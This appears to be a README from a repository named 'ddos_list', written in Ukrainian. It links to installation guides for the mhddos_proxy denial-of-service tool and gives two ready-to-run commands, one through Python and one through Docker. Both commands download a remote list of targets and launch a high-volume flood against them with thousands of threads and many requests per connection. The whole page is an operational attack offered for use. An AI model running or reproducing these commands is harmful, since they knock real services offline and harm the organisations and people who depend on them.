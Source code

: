 # ddos_list
Інтструкції:
1) https://ddosukraine.com.ua/instruction/
2) https://telegra.ph/mhddos-proxy-install-on-Linux-with-terminal-03-31

Команди:
python3 runner.py  -c https://raw.githubusercontent.com/olamor/ddos_list/main/tcp_l4_all.lst -t 2000 --rpc 1000 -p 350

docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy:latest  -c https://raw.githubusercontent.com/olamor/ddos_list/main/tcp_l4_all.lst -t 2000 --rpc 1000 -p 350
